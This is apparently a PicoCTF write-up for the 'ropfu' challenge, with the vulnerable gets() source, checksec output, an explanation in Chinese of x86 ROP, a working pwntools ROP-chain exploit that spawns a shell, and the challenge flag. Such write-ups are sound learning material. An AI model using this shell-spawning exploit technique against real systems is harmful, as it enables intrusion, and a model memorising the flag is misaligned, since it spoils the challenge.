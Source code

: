 # PicoCTF - ropfu
## Background
ROP Chain
x86 Calling Convention:
[Linux System Call Table](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit)
## Source code
:::spoiler Source Code
```cpp=
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 16

void vuln() {
  char buf[16];
  printf("How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!\n");
  return gets(buf);

}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  
}
```
:::
## Recon
```bash!
$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=232215a502491a549a155b1a790de97f0c433482, for GNU/Linux 3.2.0, not stripped
$ checksec vuln
[*] '/mnt/d/NTU/CTF/PicoCTF/PWN/ropfu/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
這一題很明顯要開個shell，我以為會像[^pico_pwn_guessing_game][^0x12_rop++]這兩題一樣，事實上概念完全一樣，但換到x86的32bits版本就不知道為啥一直沒有成功，後來有想到是忽略了calling convention的問題，和x86-64的版本不一樣，另外指令的選擇上也不太一樣，像64bits的system call會用syscall，但x86會用int 0x80處理[^syscall_in_x86]，另外寫入`/bin/sh\x00`的方式也和之前的不一樣，之前是call __libc_read function之前把暫存器的部分擺好，就直接跳到__libc_read的地方去，但在這邊是沒辦法成功的，看了其他人的wp[^ropfu_wp]，大部分的做法都是直接用rop把值寫到對應的section中，詳細如下:
```assembly
pop edx -> bss address
pop eax -> 0x6e69622f -> /bin
mov DWORD PTR [edx] eax
pop edx -> bss address
pop eax -> 0x0068732f -> /sh\x00
mov DWORD PTR [edx] eax
```
寫完`/bin/sh\x00`就直接call execve的syscall開shell
## Exploit - ROP Chain
```python!
from pwn import *

# r = process('./vuln')
r= remote('saturn.picoctf.net', 54107)
context.arch = 'amd64'

r.recvline()

pop_eax_ret = 0x80b073a
pop_edx_ebx_ret = 0x80583b9
bss_addr = 0x080e5050
mov_dword_ptr_edx_eax_ret = 0x80590f2
pop_ecx_ret = 0x8049e29
int_0x80 = 0x0807163f

'''############
Read /bin/sh\x00
############'''
# raw_input()
r.sendline(b'a' * 0x1c + 
           p32(pop_edx_ebx_ret) + p32(bss_addr) + p32(0) + 
           p32(pop_eax_ret) + p32(0x6e69622f) +
           p32(mov_dword_ptr_edx_eax_ret) + 
           p32(pop_edx_ebx_ret) + p32(bss_addr + 4) + p32(0) + 
           p32(pop_eax_ret) + p32(0x0068732f) +
           p32(mov_dword_ptr_edx_eax_ret) + 

           p32(pop_eax_ret) + p32(0xb) + 
           p32(pop_edx_ebx_ret) + p32(0) + p32(bss_addr) + 
           p32(pop_ecx_ret) + p32(0) + 
           p32(int_0x80)
)

r.interactive()
```

Flag: `picoCTF{5n47ch_7h3_5h311_1b5a4b40}`
## Reference
[^ropfu_wp]:[ PicoCTF 2022: Beginner's Compilation ](https://enscribe.dev/ctfs/pico22/beginners-compilation/#ropfu)
[^pico_pwn_guessing_game]:[PicoCTF - Guessing Game 1](https://hackmd.io/@SBK6401/SkxoLuwoh)
[^0x12_rop++]:[Simple PWN - 0x12(Lab - rop++)](https://hackmd.io/@SBK6401/rysBjQfjs)
[^syscall_in_x86]:[ 在 Linux 下寫組語, 透過 int 0x80 使用 system call ](http://guguclock.blogspot.com/2009/01/linux-int-0x80-system-call.html)